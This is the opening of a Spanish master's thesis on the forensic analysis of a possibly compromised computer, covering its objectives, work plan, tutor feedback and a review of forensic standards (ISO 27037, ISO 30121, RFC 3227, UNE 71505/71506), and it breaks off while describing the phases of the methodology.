# Master Universitario de Ciberseguridad y privacidad.

# M1.881 - TFM - Análisis forense

## Alumno:

José Enrique Rodríguez González.

## Tutora de TFM:

Dña. Elena Botana de Castro.

## Profesor responsable de la asignatura:

D. Jordi Serra Ruiz.

## Fecha de Entrega:

Enero de 2024.

---

                        

**FICHA DEL TRABAJO FINAL DE MASTER**

|  |  |
| --: | :-- |
| Titulo del trabajo: | Análisis forense de un ordenador. |
| Nombre del autor: | José Enrique Rodríguez González. |
| Nombre del Consultor: | Elena Botana de Castro. |
| Área de trabajo final: | Análisis Forense. |
| Título del Master: | Master Universitario de Ciberseguridad y Privacidad (MUCYP). |
| Universidad: | Universitat Oberta de Catalunya. |
||

 

**RESUMEN DEL TRABAJO**

|  |
|---|
|El objetivo del presente Trabajo de Fin de Máster es realizar un análisis forense de un ordenador del que se sospecha de que han accedido a los sistemas de forma ilícita. Se comprobará si realmente han accedido, así como el método que han utilizado. Por otro lado, se elaborará un informe con las consecuencias que se derivan del dicho acceso ademas se comprobará si ha habido extracción de información alguna.  Por último, y no menos importante, para el presente trabajo se tendrán en cuenta los estándares que existen en la actualidad, como pueden ser la norma ISO 27037, la RFC 3227  o las normas de la Asociación Española de Normalización UNE 71505 y UNE 71506.|
||

                     

## Índice General.

- [Deuda técnica.](#deuda-técnica)
- [0. Agradecimientos.](#0-agradecimientos)
- [1. Plan de trabajo.](#1-plan-de-trabajo)
    - [Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)
    - [1.0. Introducción al capítulo 1. Plan de trabajo.](#10-introducción-al-capítulo-1-plan-de-trabajo)
    - [1.1. Problema a resolver.](#11-problema-a-resolver)
    - [1.2. Objetivos.](#12-objetivos)
    - [1.3 Metodologías.](#13-metodologías)
    - [1.4. Descripción del entorno de trabajo.](#14-descripción-del-entorno-de-trabajo)
    - [1.5. Listado de tareas.](#15-listado-de-tareas)
    - [1.6. Planificación temporal de las tareas.](#16-planificación-temporal-de-las-tareas)
    - [1.7. Revisión del estado del arte de la informática forense.](#17-revisión-del-estado-del-arte-de-la-informática-forense)
- [2. Extremos del análisis y previsión de pruebas técnicas.](#2-extremos-del-análisis-y-previsión-de-pruebas-técnicas)
    - [Índice del capítulo 2. Extremos del análisis y previsión de pruebas técnicas.](#índice-del-capítulo-2-extremos-del-análisis-y-previsión-de-pruebas-técnicas)
    - [2.0. Introducción al capítulo 2. Extremos del análisis y previsión de pruebas técnicas.](#20-introducción-al-capítulo-2-extremos-del-análisis-y-previsión-de-pruebas-técnicas)
    - [2.1. Propuesta de extremos.](#21-propuesta-de-extremos)
    - [2.2. Previsión de pruebas técnicas.](#22-previsión-de-pruebas-técnicas)
- [3. Análisis de la memoria RAM.](#3-análisis-de-la-memoria-ram)
    - [Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)
    - [3.0. Introducción al capítulo 3. Análisis de la memoria RAM.](#30-introducción-al-capítulo-3-análisis-de-la-memoria-ram)
    - [3.1. Acciones previas al análisis de la memoria RAM.](#31-acciones-previas-al-análisis-de-la-memoria-ram)
    - [3.2. Sistema Operativo de la memoria RAM analizada.](#32-sistema-operativo-de-la-memoria-ram-analizada)
    - [3.3. Creación de perfil para volatility.](#33-creación-de-perfil-para-volatility)
    - [3.4. Datos de interés de la captura de la memoria RAM.](#34-datos-de-interés-de-la-captura-de-la-memoria-ram)
    - [3.5. Búsqueda de procesos en funcionamiento de interés para el análisis.](#35-búsqueda-de-procesos-en-funcionamiento-de-interés-para-el-análisis)
    - [3.6. Listado de conexiones de red y conexiones sospechosas.](#36-listado-de-conexiones-de-red-y-conexiones-sospechosas)
- [4. Análisis del disco duro.](#4-análisis-del-disco-duro)
    - [Índice del capítulo 4. Análisis del disco duro.](#índice-del-capítulo-4-análisis-del-disco-duro)
    - [4.0. Introducción al capítulo 4. Análisis del disco duro.](#40-introducción-al-capítulo-4-análisis-del-disco-duro)
    - [4.1. Acciones previas al análisis del disco duro.](#41-acciones-previas-al-análisis-del-disco-duro)
    - [4.2. Datos de interés del disco duro.](#42-datos-de-interés-del-disco-duro)
    - [4.3. Usuarios del sistema.](#43-usuarios-del-sistema)
    - [4.4. Análisis de evidencias del disco duro.](#44-análisis-de-evidencias-del-disco-duro)
- [5. Resumen ejecutivo.](#5-resumen-ejecutivo)
    - [Índice del capítulo 5. Resumen ejecutivo.](#índice-del-capítulo-5-resumen-ejecutivo)
    - [5.0. Introducción al capítulo 5. Resumen ejecutivo.](#50-introducción-al-capítulo-5-resumen-ejecutivo)
    - [5.1. Resumen ejecutivo](#51-resumen-ejecutivo)
- [6. Informe pericial.](#6-informe-pericial)
    - [Índice del capítulo 6. Informe pericial.](#índice-del-capítulo-6-informe-pericial)
    - [6.0. Introducción al capítulo 6. Informe pericial.](#60-introducción-al-capítulo-6-informe-pericial)
    - [6.1. Informe pericial.](#61-informe-pericial)
- [7. Conclusiones.](#7-conclusiones)
    - [Índice del capítulo 7. Conclusiones.](#índice-del-capítulo-7-conclusiones)
    - [7.0. Introducción al capítulo 7. Conclusiones.](#70-introducción-al-capítulo-7-conclusiones)
    - [7.1 Conclusiones.](#71-conclusiones)
- [8. Anexos.](#8-anexos)
    - [Índice del capítulo 8. Anexos.](#índice-del-capítulo-8-anexos)
    - [8.0. Introducción al capítulo 8. Anexos.](#80-introducción-al-capítulo-8-anexos)
    - [8.1. Glosario de términos y abreviaturas.](#81-glosario-de-términos-y-abreviaturas)
    - [8.2. Imágenes.](#82-imágenes)
    - [8.3. Videos.](#83-videos)
    - [8.4. Extracto de comandos utilizados.](#84-extracto-de-comandos-utilizados)
    - [8.5. Referencias.](#85-referencias)
    - [8.6. Linea de tiempo de evidencias.](#86-linea-de-tiempo-de-evidencias)

---

                                 

# Deuda técnica.

Este no es un capitulo al uso del TFM, si no que tratará de llevar un control de las tareas pendientes (Deuda técnica) de todo el TFM.

PEC 1

**DEUDA TÉCNICA: Listado de aplicaciones a utilizar en la descripción del entorno de trabajo**

**DEUDA TÉCNICA: plantear posible reducción del estado del arte**

**DEUDA TÉCNICA: Referencia a Wikipedia**

PEC 2

**DEUDA TÉCNICA: Indexar indice, indicar paginas**

**DEUDA TÉCNICA: ENLAZAR CON INDICE DEL CAPITULO**

**DEUDA TÉCNICA: MOVER COMANDOS UTILIZADOS Y LAS IMÁGENES A LOS ANEXOS DE IMÁGENES.**

COMENTARIOS TUTORA TFM PEC 1.

- Has realizado un buen trabajo con la planificación temporal y actividades.
    - Sin embargo, deben mejorarse los siguientes puntos:
        - 2. Definición de Objetivos: Has definido claramente tus objetivos, lo cual es positivo. Sin embargo, es esencial que logres responder a todos ellos en la entrega final o justifiques cualquier impedimento que impida su cumplimiento.
        - 3. Entorno de Trabajo: Debes proporcionar más detalles sobre el equipo y las herramientas específicas que utilizarás en tu análisis forense. Esto garantizará una comprensión completa de tu enfoque.
        - 5. Comparativa de Herramientas: La comparativa de herramientas es exhaustiva, pero muchas de ellas pueden resultar irrelevantes. Sería más beneficioso seleccionar algunas, analizarlas en detalle y explicar por qué las has elegido y cómo se utilizarán en tu TFM.
        - 6. Glosario: Es positivo que incluyas un glosario de términos y abreviaturas, pero es necesario desarrollarlo, incluyendo el origen de abreviaturas como "CISO".
        - 7. Bibliografía: La ausencia de una bibliografía es una deficiencia significativa. Debes incluir una bibliografía que respalde tus afirmaciones y muestre la base teórica en la que se basa tu TFM.
        - 8. Impacto ético y social: No he podido ver nada relativo a este punto en la entrega realizada.

---

    

# 0. Agradecimientos.

A mi esposa e hija, acompañantes en todo momento de esta aventura académica.

A mis compañeros de trabajo, Juanma, Luisma y Borja, que saben de que estos tres años que llevo realizando este master y han conocido todos los derroteros que me ha llevado este camino.

**[Volver al Índice General.](#índice-general)**

---

                                   

# 1. Plan de trabajo.

## Índice del capítulo 1. Plan de trabajo.

- [1.0. Introducción al capítulo 1. Plan de trabajo.](#10-introducción-al-capítulo-1-plan-de-trabajo)
- [1.1. Problema a resolver.](#11-problema-a-resolver)
- [1.2. Objetivos.](#12-objetivos)
- [1.3. Metodologías.](#13-metodologías)
    - [1.3.1. Introducción.](#131-introducción)
    - [1.3.2. Normas ISO 27037 e ISO 30121.](#132-normas-iso-27037-e-iso-30121)
    - [1.3.3. Norma RFC 3227.](#133-norma-rfc-3227)
    - [1.3.4. Normas UNE 71505 y UNE 71506.](#134-normas-une-71505-y-une-71506)
    - [1.3.5. Conclusiones relativo a las metodologías.](#135-conclusiones-relativo-a-las-metodologías)
- [1.4. Descripción del entorno de trabajo.](#14-descripción-del-entorno-de-trabajo)
- [1.5. Listado de tareas.](#15-listado-de-tareas)
- [1.6. Planificación temporal de las tareas.](#16-planificación-temporal-de-las-tareas)
- [1.7. Revisión del estado del arte de la informática forense.](#17-revisión-del-estado-del-arte-de-la-informática-forense)
    - [1.7.1. Introducción del estado del arte de la informática forense.](#171-introducción-del-estado-del-arte-de-la-informática-forense)
    - [1.7.2. Definiciones.](#172-definiciones)
    - [1.7.3. Objetivos de la informática forense.](#173-objetivos-de-la-informática-forense)
    - [1.7.4. Evidencia digital.](#174-evidencia-digital)
    - [1.7.5. Perspectiva de tres roles.](#175-perspectiva-de-tres-roles)
    - [1.7.6. Retos y riesgos en el análisis forense.](#176-retos-y-riesgos-en-el-análisis-forense)
    - [1.7.7. Herramientas del análisis forense.](#177-herramientas-de-análisis-forense)

**[Volver al Índice General.](#índice-general)**

---

                  

## 1.0. Introducción al capítulo 1. Plan de trabajo.

La situación en la que nos encontramos es un caso práctico laboral, en el que realizamos el papel de **<u style='color:red'>CISO</u>**.

En este caso, la dirección de la empresa tiene serias sospechas, no probadas, de que han accedido a los sistemas de forma ilícita. Por lo que el gerente de la empresa me solicita, como **<u style='color:red'>CISO</u>**, que se compruebe si realmente han accedido, así como el método que han utilizado. Por otro lado, solicitan las consecuencias que se derivan del dicho acceso, si ha habido extracción de información alguna.

#### [1.0. Referencia 001.](#85001-enunciado-tfm)

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                                 

## 1.1. Problema a resolver.

Por, lo expuesto en la introducción del capítulo, se coliga que el problema a resolver es la resolución de las cuestiones solicitadas por el Gerente de la empresa.

Una definición idónea que se puede adoptar en el presente Trabajo de Final de Máster (en adelante TFM) es lo indicado en su momento en la propuesta del TFM:

Solventar las necesidades del gerente de la empresa mediante el análisis forense del disco duro y la captura de memoria de un ordenador personal, en un caso real con un sistema virtualizado, vinculado a una presunta conducta delictiva real. Para ello, se utilizarán herramientas específicas para la localización de las evidencias digitales sobre los discos duros y la memoria que puedan demostrar el presunto delito (Encase, Autopsy, Volatility, o cualquier otra herramienta, o conjunto de herramientas con prestaciones equivalentes). Finalmente, las evidencias localizadas deberán recogerse en un informe ejecutivo o pericial, el cual, además de los aspectos técnicos, deberá tener en cuenta aquellos requisitos procesales necesarios para que el análisis pueda tener validez en un proceso judicial.

#### [1.1. Referencia 002.](#85002-propuestas-de-tfm)

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                         

## 1.2. Objetivos.

Se describe un el siguiente listado de objetivos que se obtienen al analizar el enunciado del TFM:

1. Elaboración del Análisis forense de Disco Duro y RAM.
    - 1.1. realizar una recuperación parcial o total de la información borrada existente en los dispositivos susceptibles de ser analizados (**<u style='color:red'>carving</u>**).
    - 1.2. Relativo al análisis de la memoria RAM.
        - 1.2.1. Comprobar la **<u style='color:red'>integridad</u>** de la memoria RAM.
        - 1.2.2. Comprobar fecha de la captura de la RAM.
        - 1.2.3. Determinar la edición y versión de Windows que tiene instalado el sistema operativo del ordenador sobre el cual se ha efectuado la captura de la memoria RAM.
        - 1.2.4. Buscar los procesos en funcionamiento y localiza aquellos que te parezcan de interés para el análisis forense del ordenador analizado.
        - 1.2.5. Extraer los procesos que consideres sospechosos y analizarlos.
        - 1.2.6. Listar las conexiones de red y analizarlas.
    - 1.3. Relativo al análisis del Disco Duro.
        - 1.3.1. Comprobar la **<u style='color:red'>integridad</u>** del disco duro.
        - 1.3.2. Determinar la siguiente información del disco duro.
            - 1.3.2.1. Tamaño del disco duro analizado.
            - 1.3.2.2. Sistema y versión del sistema operativo instalado.
            - 1.3.2.3. Nombre del propietario y relación de software instalado.
            - 1.3.2.4. "**<u style='color:red'>Product ID</u>**" y "**<u style='color:red'>Product Key</u>**" asociadas al sistema.
            - 1.3.2.5. Fecha y hora de instalación del sistema operativo.
            - 1.3.2.6. Determinar marca y modelo (si es posible) del hardware siguiente: **<u style='color:red'>CPU</u>**, monitor, tarjeta gráfica, tarjeta **<u style='color:red'>Ethernet</u>** y **<u style='color:red'>Wireless</u>**.
        - 1.3.3. Determinar qué usuarios tiene definidos el sistema.
        - 1.3.4.Localizar los documentos (archivos PDF, de texto, hojas de cálculo, etc.) que puedan tener relación con alguna conducta presuntamente delictiva.
        - 1.3.5. Localizar los archivos eliminados y determina si hay alguno relevante para la causa investigada.
        - 1.3.6. Localizar los ficheros comprimidos relevantes analizarlos, reventar contraseña si es necesario y analizar su contenido.
        - 1.3.7. Localizar algún fichero ejecutable que pueda resultar de interés para la investigación, ademas, analizar la relación con alguna evidencia anterior.
        - 1.3.8. Determinar el contenido del fichero log de un conocido programa de comunicación si es necesario y relacionarlo con el caso investigado.
        - 1.3.9. Realizar un análisis de la navegación web.
        - 1.3.10. Estudio de los dispositivos físicos que en algún momento fueron conectados al sistema estudiado: móviles, **<u style='color:red'>USB's</u>**, impresoras, escáneres, cámaras, tarjetas de memoria.
        - 1.3.11. Estudio de la información contenida en los unallocated cluster o en el file slack.
        - 1.3.12. Información contenida en los archivos de hibernación, paginación, particiones y archivos de intercambio (**<u style='color:red'>swap</u>**).
        - 1.3.13. Análisis de la cola de impresión.
        - 1.3.14. Visualización de los links de los archivos y de los archivos accedidos recientemente.
        - 1.3.15. Estudio de los metadatos de los archivos, si se considera que pueden ser relevantes para el caso.
        - 1.3.16. Estudio de las aplicaciones de virtualización.
        - 1.3.17 Estudio de las bases de datos instaladas y las aplicaciones que permiten su gestión.
        - 1.3.18. Estudio de los programas de cifrado, particiones cifradas.
        - 1.3.19. Análisis de los clientes de correo electrónico y del webmail.
    - 1.4. Realizar un estudio de la seguridad.
        - 1.4.1. Estudiar si las evidencias analizadas han sido comprometidas.
        - 1.4.2. Identificar cualquier aplicación vulnerable, software malicioso, evaluar el daño sufrido, identificar los archivos que han sido comprometidos, así como determinar la vía de acceso al sistema.
2. Relativo al resumen ejecutivo, elaborarlo teniendo en cuenta los siguientes apartados.
    - 2.1. Claridad en la comunicación, proporcionando información de forma clara y concisa y, por otro lado, utilizar un lenguaje accesible para los no expertos en el área.
    - 2.2. Presentar el contexto u antecedentes, describiendo el motivo y las circunstancias del análisis forense y Proporcionar una breve descripción del incidente o situación bajo investigación.
    - 2.3. Redactar un resumen ejecutivo con los hallazgos clave y las recomendaciones.
    - 2.4. Describir la metodología utilizada durante el análisis forense.
    - 2.5. Explicar las herramientas y técnicas de análisis implementadas.
    - 2.6. Proporcionar una línea de tiempo detallada de los eventos y acciones tomadas.
    - 2.7. Detallar los hallazgos significativos del análisis.
    - 2.8. Incluir evidencia técnica relevante, como registros de logs, archivos, etc
    - 2.9. Evaluar y describir el impacto del incidente en la organización o individuos afectados.
    - 2.10. Proveer conclusiones basadas en los hallazgos del análisis forense.
    - 2.11. Proporcionar recomendaciones para la acción futura, basadas en los hallazgos y conclusiones.
    - 2.12. Sugerir medidas preventivas y correctivas para evitar incidentes similares en el futuro.
3. Elaborar un informe pericial teniendo en cuenta los siguientes apartados.
    - 3.1. Mantener una postura objetiva e imparcial en todo momento.
    - 3.2. Garantizar que el análisis y las conclusiones estén fundamentados en evidencias tangibles y replicables.
    - 3.3. Mantener la **<u style='color:red'>cadena de custodia</u>** y la **<u style='color:red'>integridad</u>** de las pruebas durante todo el proceso.
    - 3.4. Redactar el informe de manera clara, precisa y entendible para personas sin conocimientos técnicos específicos.
    - 3.5. Describir detalladamente el caso, partes involucradas, y el objeto del peritaje.
    - 3.6. Detallar las herramientas, técnicas y procedimientos utilizados en el análisis forense.
    - 3.7. Justificar la elección de la metodología y herramientas utilizadas.
    - 3.8. Establecer una línea temporal clara de todas las acciones y procesos llevados a cabo durante la investigación
    - 3.9. Presentar de forma clara y precisa los hallazgos resultantes del análisis forense. Los cuales será
    - 3.10 Incluir elementos visuales como gráficos, imágenes o tablas para facilitar la comprensión de los datos.
    - 3.11. Interpretar las evidencias de manera fundamentada y ligada a las normativas y principios de la ciencia forense digital.
    - 3.12. Derivar conclusiones basadas exclusivamente en las evidencias y hallazgos del análisis.
    - 3.13. Ofrecer una opinión pericial en base a los hallazgos, respetando los límites de la prueba pericial y los datos disponibles.
    - 3.14. Garantizar que toda la información manejada se mantiene confidencial y segura.
    - 3.15. Discutir las implicaciones legales de los hallazgos y su posible impacto en el caso.
    - 3.16. Estar preparado para ratificar el informe en un tribunal y responder a preguntas relacionadas con el análisis y los hallazgos. Este supuesto, el defensor se intuye que se realizará en la defensa síncrona de la defensa de este TFM.
4. Realizar unas conclusiones acordes a todo el TFM realizado.
    - 4.1. Basarse en ideas fuerza que han aparecido durante todo el TFM.
    - 4.2. Tener en cuenta que este apartado es el que finalmente, el gerente de la empresa, como miembro directivo de la misma, usando el método del Presidente Reagan.

#### [1.2. Referencia 001.](#85001-enunciado-tfm) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [1.2. Referencia 003.](#85003-el-método-reagan)

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

                           

## 1.3. Metodologías.

### **1.3.1. Introducción.**

En esta sección se procederá a realizar un repaso general de algunas de las normativas y estándares.

Primero abordaremos un pequeño estudio relativo a las normas ISO 27037 e ISO 30131, posteriormente abordaremos la normativa **<u style='color:red'>RFC</u>** 3227 para finalmente comentar un resumen de las normas UNE 71505 y UNE 71506.

Por ultimo, pero no menos importante, trataré unas conclusiones sobre esta sección.

---

                                  

### **1.3.2. Normas ISO 27037 e ISO 30121.**

Dentro de la seguridad informática cabe destacar una normativa ampliamente conocida, es la familia ISO 27000. Esta serie de normas son estándares de seguridad publicados por la Organización Internacional para la Estandarización (ISO) y la Comisión Electrotécnica Internacional (IEC).

Esta serie contiene diversas normas todas relacionadas con las mejores prácticas recomendadas en Seguridad de la Información para desarrollar, implementar y mantener especificaciones para los Sistemas de Gestión de la Seguridad de la Información (SGSI).

Concretamente, existe una norma dedicada en exclusiva al análisis forense, se trata de la ISO 27037 Directrices para la identificación, recolección, adquisición y preservación de la prueba digital.

Esta norma ofrece orientación para tratar situaciones frecuentes durante todo el proceso de tratamiento de las pruebas digitales. Además define dos roles especialistas:

- **<u style='color:red'>DEFR</u>** **(Digital Evidence First Responders)**: Expertos en primera intervención de evidencias electrónicas.
- **<u style='color:red'>DES</u>** **(Digital Evidence Specialists)**: Experto en gestión de evidencias electrónicas.

ISO 27037 proporciona orientación para los siguientes dispositivos y circunstancias:

- Medios de almacenamiento digitales utilizados en equipos varios como por ejemplo discos duros, disquetes, discos magneto-ópticos y ópticos y otros similares.
- Teléfonos móviles, **<u style='color:red'>PDA's</u>**, tarjetas de memoria.
- Sistemas de navegación móvil (**<u style='color:red'>GPS</u>**).
- Cámaras de video y cámaras digitales (incluyendo circuitos cerrados de televisión).
- Ordenadores estándares con conexiones a redes.
- Redes basadas en protocolos **<u style='color:red'>TCP/IP</u>** y otros protocolos digitales.
- Otros dispositivos con funcionalidades similares a las descritas anteriormente.

Resumiendo, se puede destacar que esta norma ofrece orientación sobre el manejo de las pruebas digitales. Siguiendo las directrices de esta norma se asegura que la evidencia digital potencial se recoge de manera válida a efectos legales para facilitar su aportación en juicios y procesos legales. Además cabe destacar que cubre una amplia gama de tipos de dispositivos y situaciones, por lo que la orientación dentro de la norma es ampliamente aplicable.

Se dispone de una copia de la ISO 27037 en ingles.

#### [1.3.2. Referencia 004](#85004-norma-iso-27037)

La **<u style='color:red'>ISO/IEC</u>** 30121 es la norma internacional para el análisis forense digital. Define los requisitos mínimos que todas las organizaciones deben cumplir para estar preparados ante un análisis forense digital. La primera edición de la norma se publicó en 2015. Desde entonces, se han realizado varias actualizaciones importantes para reflejar las
nuevas tecnologías y la evolución de los procedimientos de investigación criminal. Ha sido adoptada por muchas organizaciones de todo el mundo como base de las mejores prácticas para el manejo de las pruebas digitales, maximizando la disponibilidad y acceso a esta.

La **<u style='color:red'>ISO/IEC</u>** 30121 se creó para garantizar que las pruebas digitales se traten de forma coherente en las distintas organizaciones y para ayudar a garantizar que las pruebas digitales puedan utilizarse como prueba en los procedimientos judiciales.

#### [1.3.2. Referencia 005](#85005-implementación-de-herramientas-para-la-extracción-de-evidencia-digital)

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)**

---

                                       

### **1.3.3. Norma RFC 3227.**

Otra norma destacable para mencionar es la **<u style='color:red'>RFC</u>** 3227. Este documento publicado por la **<u style='color:red'>Internet Engineering Task Force (IETF)</u>** recoge directrices para recopilar y almacenar evidencias sin ponerlas en riesgo.

En cuanto a los principios para la recolección de evidencias destacan básicamente tres, el orden de volatilidad de los datos, las acciones que deben evitarse y las consideraciones sobre la privacidad.

Sobre el procedimiento de almacenamiento tiene en cuenta la **<u style='color:red'>cadena de custodia</u>** de las pruebas recogidas anteriormente y dónde y cómo se deben almacenar estas para que estén a buen recaudo.

Para acabar detalla qué tipo de herramientas son las más útiles y qué características deben tener para evitar conflictos, haciendo hincapié en que las herramientas deben alterar lo menos posible el escenario. Según este documento el kit de análisis debe incluir las siguientes herramientas:

- Programas para listar y examinar procesos.
- Programas para examinar el estado del sistema.
- Programas para realizar copias bit a bit.

Todas estas recomendaciones tienen como epicentro el principio de intercambio de Locard, que señala que: "siempre que dos objetos entran en contacto transfieren parte del material que incorporan al otro objeto".

Se dispone de una copia de la **<u style='color:red'>RFC</u>** 3227 en español.

#### [1.3.3. Referencia 006.](#85006-norma-rfc-3227)

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)**

---

                   

### **1.3.4. Normas UNE 71505 y UNE 71506.**

Las normas UNE son normas técnicas desarrolladas por el organismo español de normalización, la Asociación Española de Normalización (UNE). "UNE" es el acrónimo de "Una Norma Española". Estas normas establecen especificaciones técnicas, criterios y directrices que deben seguirse en la fabricación, diseño, instalación, uso o mantenimiento de productos, sistemas o servicios en España.

#### [1.3.4. Referencia 007.](#85007-que-son-las-normas-une)

Estas normas que tratamos en el presente trabajo tienen como finalidad dar una metodología para la preservación, adquisición, documentación, análisis y presentación de pruebas digitales.

Según la asociación esta norma debe dar respuesta a las infracciones legales e incidentes informáticos en las distintas empresas y entidades. Con la obtención de dichas pruebas digitales, que serán más robustas y fiables siguiendo la normativa, se podrá discernir si su causa tiene como origen un carácter intencional o negligente.

Estas normativas son de aplicación a cualquier organización con independencia de su actividad o tamaño, así como a cualquier profesional competente en este ámbito. Se dirige especialmente a incidentes y seguridad, así como al personal técnico que trabaje en laboratorios o entornos de análisis forense de evidencias electrónicas.

Se dispone de una copia de la norma UNE 71505 en el siguiente repositorio de la referencia que a continuación se detalla.

#### [1.3.4. Referencia 008.](#85008-norma-une-71505)

**[Volver al Índice del capítulo 1. Plan de trabajo.](#índice-del-capítulo-1-plan-de-trabajo)**

---

                   

### **1.3.5. Conclusiones relativo a las metodologías.**

Tras analizar los distintos apartados de esta sección y otras fuentes que se indicarán al final de la sección, se puede llegar a la conclusión de que el análisis forense informático recoge de la misma manera la metodología forense per sé, siguiendo la siguiente estructura.

Aunque no existe una metodología que sea única y universal en el análisis forense, a tenor de la documentación consultada y tomando en consideración la normativa legal y los estándares vigentes a nivel internacional, sí que se puede decir que existen una serie de fases o puntos importantes que se tienen que tomar en consideración para que el análisis forense sea adecuado y sirva como elemento probatorio ante un incidente.

Todas estas recomendaciones, recogidas en distintas documentaciones (ver bibliografía), establecen una estructura lógica que permiten garantizar el proceso y que, en el ámbito civil, se compone básicamente de las siguientes fases:

#### [1.3.5. Imagen 001.](#82001003005001-diagrama-de-metodología-del-análisis-forense)

En cada una de las fases indicadas en la imagen anterior podemos destacar las siguientes tareas.

#### [1.3.5. Imagen 002.](#82001003005002-fases-1-2-y-3-de-la-metodología-del-análisis-forense) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [1.3.5. Imagen 003.](#82001003005003-fases-4-5-y-6-de-la-metodología-del-análisis-forense) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [1.3.5. Imagen 004.](#82001003005004-fase-7-de-la-metodología-del-análisis-forense)

**PLANTEAMIENTO DEL PROBLEMA.**

En el caso de que nos trata el presente TFM, estas acciones de planteamiento del problema, nos viene dado en el enunciado, ya que el enunciado, se expresa claramente que el jefe de la empresa tiene serias sospechas, no probadas, de que se ha accedido de forma licita al sistema, y por tanto, en primera instancia se requieren nuestras acciones relativo al asunto.

Entrando en el trasfondo de la legalidad y posible contaminación de pruebas, ante un presunto delito que este tipificado en el código penal, suelen ser las Fuerzas y Cuerpos de Seguridad del estado los que, bajo la orden de un juzgado de instrucción, las competentes en realizar este análisis forense por un presunto hecho

**IDENTIFICACIÓN.**

En el caso del presente TFM, en el enunciado hemos recibido y el material didáctico que se adjunta, se han realizado previamente y satisfactoriamente todos los pasos de esta metodología.

Cabe destacar en uno de las tareas dedicadas a la identificación, nos encontramos con la tarea de asegurar la escena, es recomendable realizar las siguientes acciones:

1. Realizar fotografías del entorno del equipo para evidenciar el estado original de la escena, identificando así el perímetro de la escena a analizar y protegiéndolo de accesos de personal no autorizado.

